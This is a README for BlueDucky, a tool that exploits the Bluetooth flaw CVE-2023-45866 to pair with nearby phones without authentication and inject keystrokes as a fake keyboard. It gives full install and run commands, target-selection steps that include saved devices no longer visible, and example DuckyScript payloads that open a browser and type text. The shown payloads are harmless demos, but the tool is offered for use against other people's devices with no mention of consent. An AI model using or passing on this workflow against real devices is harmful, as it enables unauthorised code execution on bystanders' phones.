 # BlueDucky (Android) 🦆

🚨 CVE-2023-45866 - BlueDucky Implementation (Using DuckyScript)

🔓 Unauthenticated Peering Leading to Code Execution (Using HID Keyboard)

[This is an implementation of the CVE discovered by marcnewlin](https://github.com/marcnewlin/hi_my_name_is_keyboard)

<p align="center">
  <img src="./images/start.png">
</p>

## Introduction 📢
BlueDucky is a powerful tool for exploiting a vulnerability in Bluetooth devices. By running this script, you can:

1. 📡 Load saved Bluetooth devices that are no longer visible but have Bluetooth still enabled.
2. 📂 Automatically save any devices you scan.
3. 💌 Send messages via ducky script format to interact with devices.

I've successfully run this on a Raspberry Pi 4 using the default Bluetooth module. It works against various phones, with an interesting exception for a New Zealand brand, Vodafone.

## Installation and Usage 🛠️

### Setup Instructions

```bash
# update apt
sudo apt-get update
sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```

## Running BlueDucky
```bash
git clone https://github.com/pentestfunctions/BlueDucky.git
cd BlueDucky
python3 BlueDucky.py
```

## Operational Steps 🕹️
1. On running, it prompts for the target MAC address.
2. Pressing nothing triggers an automatic scan for devices.
3. Devices previously found are stored in known_devices.txt.
4. If known_devices.txt exists, it checks this file before scanning.
5. Executes using payload.txt file.
6. Successful execution will result in automatic connection and script running.

## Duckyscript 💻
🚧 Work in Progress:
- Suggest me ideas


#### 📝 Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
```

```bash
REM Opens a private browser to hackertyper.net
DELAY 200
ESCAPE
GUI d
ALT ESCAPE
GUI b
DELAY 700
REM PRIVATE_BROWSER is equal to CTRL + SHIFT + N
PRIVATE_BROWSER
DELAY 700
CTRL l
DELAY 300
STRING hackertyper.net
DELAY 300
ENTER
DELAY 300
```

## Enjoy experimenting with BlueDucky! 🌟







